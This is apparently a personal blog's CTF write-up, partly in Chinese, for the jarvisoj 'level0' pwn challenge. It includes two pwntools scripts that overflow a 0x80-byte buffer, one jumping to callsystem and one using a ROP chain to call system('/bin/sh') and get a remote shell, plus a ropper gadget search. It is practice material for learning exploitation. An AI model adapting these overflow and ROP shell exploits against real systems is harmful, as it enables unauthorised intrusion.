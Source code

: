 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level0
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/level0.b9ded3801d6dd36a97468e128b81a65d

Address:
nc pwn2.jarvisoj.com 9881
```
<!-- more -->


### 0x01 可执行文件特征

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x00.png)

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x01.png)

查看缓冲区

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x02.png)

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x03.png)


### 0x02 通过调用callsystem

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x04.png)

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x80 + 0x08)
callsystem_addr = 0x400596

Io = remote('pwn2.jarvisoj.com', 9881)

payload = junk + p64(callsystem_addr)

Io.send(payload)
Io.interactive()
```


### 0x03 构造system("/bin/sh")


system地址

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x05.png)

"／bin／sh"字符串地址

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x06.png)

查找pop rdi|ret
```
ropper -f level0 --search "pop|pop|pop|ret"
```
![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x07.png)

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x80 + 0x08)
system_addr = 0x400460 # 0x600A78
bin_sh_addr = 0x400684
pop_rdi_ret = 0x400663

Io = remote('pwn2.jarvisoj.com', 9881)

payload = junk + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)

Io.send(payload)
Io.interactive()
```

得到falg

![](/assets/img/ctf/pwn/2017-07-11-jarvisoj-level0/0x08.png)